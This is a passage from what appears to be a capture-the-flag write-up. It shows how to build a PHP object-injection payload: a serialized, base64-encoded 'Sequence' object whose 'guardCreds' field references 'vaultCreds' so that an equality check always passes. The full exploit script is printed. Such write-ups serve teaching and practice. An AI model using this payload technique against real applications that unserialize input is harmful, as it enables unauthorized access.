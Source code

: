 Reading the article I mentioned earlier gave me a rough idea on how to do this

First, we create the same class and assign an object

```php
class Sequence {
    public $vaultCreds;
    public $guardCreds;
}


$sequence = new Sequence();
```

Next we assign the values and here is the trick, we use the `&` operator to make a reference to the `vaultCreds` so `guardCreds` will  always match and have the same value as `vaultCreds` after the random number generator. We can input anything here like a 0.

```php
$sequence->vaultCreds = 0;
$sequence->guardCreds = &$sequence->vaultCreds; 
```

Finally we serialize and encode it in base64

```php
$serialized = serialize($sequence);

$base64 = base64_encode($serialized);
```

Full script:

```php
<?php
class Sequence {
    public $vaultCreds;
    public $guardCreds;
}

$sequence = new Sequence();


$sequence->vaultCreds = 0;    // Assign random value dont care
$sequence->guardCreds = &$sequence->vaultCreds; // Reference 'vaultCreds'



$serialized = serialize($sequence);
$base64 = base64_encode($serialized);


echo $base64;
?>
```

Run the script
